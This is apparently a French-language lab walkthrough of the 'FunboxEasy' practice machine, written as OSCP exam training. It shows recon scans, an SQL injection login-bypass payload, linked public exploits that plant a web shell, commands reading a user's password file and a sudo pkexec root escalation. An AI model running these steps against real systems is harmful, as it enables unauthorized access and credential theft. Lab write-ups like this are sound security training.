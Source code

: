 # FunboxEasy

    sudo nmap -A -p1-10000 192.168.249.111
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.249.111 -e tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.249.111
    feroxbuster -u http://192.168.249.111

Scans classiques. 

J'ai repéré et inspecté quelques URL intéressantes : 

    http://192.168.249.111/admin
    http://192.168.249.111/gym/ 
    http://192.168.249.111/gym/ex/admin/
    http://192.168.249.111/gym/admin/
    http://192.168.249.111/secret
    http://192.168.249.111/store/database
    ...

On peut facilement contourner le formulaire de login qui se situe sur la page http://192.168.249.111/admin grâce à ce petit exploit : https://www.exploit-db.com/exploits/47874

On peut aussi, grâce au même payload ( '=''or' ), modifier le mot de passe de l'administrateur sur la page http://192.168.249.111/admin/change-password.php 

Sur la page http://192.168.249.111/store/admin_add.php on voit qu'une erreur SQL sort quand on tente d'ajouter un livre. Pour me rapprocher des conditions d'examen, j'ai choisi de creuser les exploits existants au lieu de bêtement passer par SQLMap, puisque ce dernier est interdit pour l'OSCP.

Et j'ai directement trouvé un exploit vérifié qui menait à une RCE : https://www.exploit-db.com/exploits/47887

    vim exploit_OnlineBookStore.py
    python2.7  exploit_OnlineBookStore.py http://192.168.249.111/store 

Bien entourer les commandes de guillemets sous peine d'avoir des exceptions et de faire crasher le shell.

Ou directement visiter les URL sur un navigateur une fois le web-shell injecté.
Exemple : http://192.168.249.111/store/bootstrap/img/nG2CKRPfqR.php?cmd=id

    RCE $ 'ls /home/tony '
    RCE $ 'cat /home/tony/password.txt'

On voit le mot de passe pour le SSH, le mot de passe pour http://192.168.249.111/gym/admin et le mot de passe pour http://192.168.249.111/store 

À noter que le mot de passe pour /store correspondait bien au mot de passe que j'avais trouvé dans le fichier http://192.168.249.111/store/database/www_project.sql en récupérant le hash puis en le crackant avec Hashcat. Il y avait sûrement énormément de manières différentes de terminer cette VM.

### Élévation de privilèges :

    ssh  -l tony 192.168.249.111
    sudo -l
    sudo pkexec /bin/sh
    find / -name "local.txt" 2>/dev/null
    cat /var/www/local.txt
    ls /root
    cat /root/proof.txt

    
